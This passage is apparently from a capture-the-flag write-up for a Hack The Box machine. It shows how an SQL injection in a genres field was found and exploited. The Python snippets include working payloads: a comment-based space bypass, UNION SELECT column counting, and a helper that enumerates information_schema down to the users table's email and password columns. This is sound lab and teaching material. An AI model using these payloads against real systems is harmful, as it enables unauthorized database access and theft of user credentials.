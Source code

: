 ### SQL Injection

We noticed that updating our genres with a trailing single quote caused the feed API endpoint to return "Server Error", while any other printable character seemed to pass without error. This is usually a good sign that an injection vulnerability is present. We verified that an SQL injection vulnerability exists by observing the difference between responses containing valid SQL keywords versus invalid keywords. We concluded that the injection point is enclosed in parenthesis after additional fuzzing. In addition, we noticed some weird behavior involving the use of spaces surrounding keywords, which was circumvented using MySQL multi-line comments.

```python
# Verify SQL injection vulnerability
assert login_helper('pwn@htb.local', 'hq9zyYB3hlSWO5Dp'), 'Login failed' # Login with existing account
assert genres_helper("' OR ''='")[0] == 200 # Valid keyword passes without error
assert genres_helper("' XX ''='")[0] == 500 # Invalid keyword causes internal error

# Observe behavior of injection point
print(genres_helper("'#")[0]) # Internal error because opening parenthesis is unmatched
print(genres_helper("')#")[0]) # Successful because opening parenthesis is matched
print(genres_helper("') OR 1=1#")[0]) # Spaces seem to trigger internal error
print(genres_helper("')OR/**/1=1#")[0]) # Avoiding spaces proves successful
```
{:file="bryan@redteam ➤ python3" .nolineno}

#### UNION Queries

We decided to use the `UNION SELECT` statement with five columns to exfiltrate data.

```python
# Find number of columns to match (at least 4 judging from the keys in the response body)
print(genres_helper("')UNION/**/SELECT+1,2,3,4#")) # Query fails.. Probably >4 columns
print(genres_helper("')UNION/**/SELECT+1,2,3,4,5#")) # Success! Original statment queries 5 columns

# Exfiltrate database values
print(genres_helper("')UNION/**/SELECT+1,2,@@version,4,5#")[1]['data'][0]['genre']) # Fetch version
```
{:file="bryan@redteam ➤ python3" .nolineno}

We were able to successfully exfiltrate the MySQL version string, so we created a function to easily fetch values. At this point, we began to map the schema and search for relevant information.

```python
def sqli(query):
  query = query.replace(' ', '/**/')
  response = genres_helper(f"')UNION/**/SELECT+1,2,({query}),4,5#")
  try:
    return response[1]['data'][0]['genre']
  except:
    return None

# List databases -> information_schema,intentions
print(sqli("SELECT group_concat(schema_name) FROM information_schema.schemata"))
# List tables in database 'intentions' -> gallery_images,personal_access_tokens,migrations,users
print(sqli("SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='intentions'"))
# List columns in table 'intentions.users' -> id,name,email,password,created_at,updated_at,admin,genres
print(sqli("SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='users'"))
```
{:file="bryan@redteam ➤ python3" .nolineno}
